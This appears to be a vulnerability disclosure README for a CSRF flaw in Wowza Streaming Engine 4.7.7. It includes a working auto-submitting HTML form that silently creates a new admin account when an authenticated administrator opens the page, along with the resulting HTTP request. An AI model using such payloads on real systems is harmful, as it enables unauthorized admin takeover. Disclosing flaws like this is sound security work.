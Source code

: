 # CVE-2019-7654-CSRF-Wowza
The Wowza Streaming Engine 4.7.7 build 20181108145350 application suffers from multiple CSRF vulnerabilities. For example, an administrator, by following a link, can be tricked into making unwanted changes like adding another admin user.


### Evidence

Admin users:
<img src="Wowza-CSRF1.png">

An authenticated admin user can be tricked into accessing a page containing the following code:

```
<html> 
<body onload='document.frm1.submit();'> 
 <script>history.pushState('', '', '/')</script> 
 <form name="frm1" action="http://192.168.1.180:8088/enginemanager/server/user/edit.htm" method="POST"> 
 <input type="hidden" name="version" value="0" /> 
 <input type="hidden" name="action" value="new" /> 
 <input type="hidden" name="userName" value="wowadmin3" /> 
 <input type="hidden" name="userPassword" value="wowadmin3" /> 
 <input type="hidden" name="userPassword2" value="wowadmin3" /> 
 <input type="hidden" name="accessLevel" value="admin" /> 
 <input type="hidden" name="advUser" value="true" /> 
 <input type="hidden" name="advUser" value="on" /> 
 <input type="hidden" name="ignoreWarnings" value="false" /> 
 <input type="submit" value="Submit request" /> 
 </form> 
 </body> 
</html>
```

He then unknowingly will make a request that adds another application admin user (wowadmin3):

```
POST /enginemanager/server/user/edit.htm HTTP/1.1
Host: 192.168.1.180:8088
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://wowtest.com/
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 150

version=0&action=new&userName=wowadmin3&userPassword=wowadmin3&userPassword2=wowadmin3&accessLevel=admin&advUser=true&_advUser=on&ignoreWarnings=false
```
<img src="Wowza-CSRF2.png">
